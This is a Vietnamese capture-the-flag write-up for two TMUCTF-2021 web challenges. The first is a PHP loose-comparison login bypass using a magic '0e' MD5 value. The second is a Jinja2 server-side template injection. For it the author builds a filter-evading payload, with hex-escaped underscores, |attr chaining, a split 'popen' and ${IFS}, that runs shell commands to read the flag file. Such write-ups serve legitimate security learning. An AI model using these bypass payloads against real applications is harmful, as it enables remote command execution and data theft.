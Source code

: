 # TMUCTF-2021 (Web challenges)
## Login
Ban đầu mình thử với một vài payload sqli nhưng không phải.

Thử check file robots.txt chúng ta sẽ có được source code:
```
if (isset($_GET["password"])) {
    if (hash("md5", $_GET["password"]) == $_GET["password"]) {
        echo "<h1>Here is the flag:</h1>" . $flag;
    } else {
        echo "Try harder!";
    }
}
```

Bài này thực hiện so sánh password do chúng ta nhập với md5 hash của nó. Nếu như kết quả giống nhau thì sẽ echo ra flag.

Lợi dụng Loose comparison trong PHP để giải quyết vấn đề này.

password: 0e215962017

### Flag: TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}

## Injection
### Dạng bài: server-side templete injection 

Điều khó khăn nhất trong bài này chính là đề bài không cung cấp blacklist cho chúng ta nên chúng ta không thể soạn một payload hoàn chỉnh ngay được

Sau một vài lần thử thì mình có thể biết được: các kí tự: '_', request, '.','[' đều bị filter:

* `__` có thể được thay thế bằng `\x5f\x5f`

* `.` và `[` có thể sử dụng `|attr để thay thế`
 
 Hiển thị tất cả class:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
 ```
 Đến đây có thể tìm được ví trí của class mình cần, mình tìm được vị trí của class `os._wrap_close` là 132
 
 Get class `os._wrap_close`:
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)
 ```
 
 Cứ lần lượt như vậy mình có được payload:
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
 ```
 Nhưng đây chưa phải là payload cuối cùng mình có thể sử dụng vì os, popen và khoảng trắng đều bị filter:
 
 * Thay `'os'` bằng `'\x6f\x73'`
 
 * Thay `'popen'` bằng `'pop''en'`
 
 * Thay khoảng trằng băng ${IFS}
 
 Finally, chúng ta đã có thể execute được command.
 
 ```
 {{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(132)|attr('\x5f\x5finit\x5f\x5f')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('\x6f\x73')|attr('po''pen')('cat${IFS}/opt/tmuctf/*')|attr('read')()}}
 ```
 
 Trong bài này việc tìm flag cũng có đôi chút khó khăn, flag không nằm trong những file 'flag.txt' hay nằm sẵn ở dạng TMUCTF{}.
 
 Mình mất khá nhiều thời gian để tìm được path chứa flag. Cuối cùng mình thử cat file help thì được hint là flag là file cuối cùng được upload trong /opt/tmuctf/
 
 `ls${IFS}-t` để sắp xếp file theo thời gian
 
 Sau đó cat file và base64-decode nội dung sẽ được flag:
 
 ### Flag: TMUCTF{0h!_y0u_byp4553d_4ll_my_bl4ckl157!!!__1_5h0uld_h4v3_b33n_m0r3_c4r3ful}
 
 



